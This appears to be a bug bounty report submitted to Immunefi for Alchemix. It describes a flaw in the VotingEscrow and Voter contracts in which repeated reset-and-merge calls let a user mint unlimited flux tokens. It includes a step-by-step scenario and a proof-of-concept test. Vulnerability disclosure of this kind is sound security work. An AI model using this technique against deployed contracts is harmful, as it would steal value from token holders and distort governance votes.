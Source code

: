 
# Malicious user can mint unlimited flux tokens

Submitted on Wed May 15 2024 23:35:05 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31280

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Theft of unclaimed yield

## Description
## Brief/Intro
A malicious user can mint unlimited flux by calling reset ( to receive claimable flux ) and merging it with another token and calling reset again to claim again and repeat this process and mint unlimited flux. 

## Vulnerability Details
Users earn flux proportion to the amount of veALCX they hold at each epoch, they can use claimable flux for boosting voting power, mint flux tokens or add It to their unclaimed value through the reset function of the voter contract so they can use it in the future.
The merge function ensures users didn't vote in the same epoch that they want to merge the token to prevent double calculation of claimable flux by checking `voted[]` mapping, however, users can call reset to receive claimable flux ( it's added to unclaimed flux ), since reset function sets voted to false and only updates lastVoted ( which doesn't affect merging ) user can 
merge the token with another token and receive the claimable amount again.  

Scenario:
A malicious user creates two different locks ( first with 100 locked value and second with 1 lock value ), flux per veALCX in this epoch is 1, user calls the reset function at voter contract and claims 100 flux for token1 and then merges token1 with the token2, and call reset for token2 and receives 101 flux ( while user received 100 flux before merge ), user earned 201 flux in this epoch instead of 101 tokens, user can create another small lock and merge the token2 with new lock and call reset again and repeat this process to mint unlimited flux.

## Impact Details
The attacker can use unlimited flux tokens to boost voting power and direct emission to a specific gauge ( direct theft of unclaimed yield )

Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield  ) 
, the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L651

        
## Proof of concept
## Proof of Concept
```
      function testMintUnlimitedFlux() external {

        // create 2 lock tokens for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);
        uint256 token2Flux = veALCX.claimableFlux(tokenId2);
        uint256 totalClaimable = token1Flux + token2Flux;

        // user calls reset for token1, so claimable flux for token 1 is added to unclaimed amount of token1 
        hevm.prank(admin);
        voter.reset(tokenId1);

        // user merges token1 and token2, so unclaimed amount of token1 is added to token2 unclaimed 
        hevm.prank(admin);
        veALCX.merge(tokenId1, tokenId2);

        // user calls reset for token2, so claiamble amount is added to unclaimed 
        // due to merge amount of token1 has been added to token2 and effects claimable flux despite that flux for that amount is being added to unclaimed flux already  
        hevm.prank(admin);
        voter.reset(tokenId2);

        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId2);
        // user has more flux that totalClaimable at first place 
        assert(unclaimedFlux > totalClaimable);
        // token1Flux is double claculated during claiming flux  
        // NOTE: used assert Approx due to precision loss during calculation of claimable amount 
        uint256 claimed = 2 * token1Flux + token2Flux;
        assertApproxEqAbs(claimed, unclaimedFlux, 100000000);

        // malicious user can repeat this to mint unlimited flux 
    }
```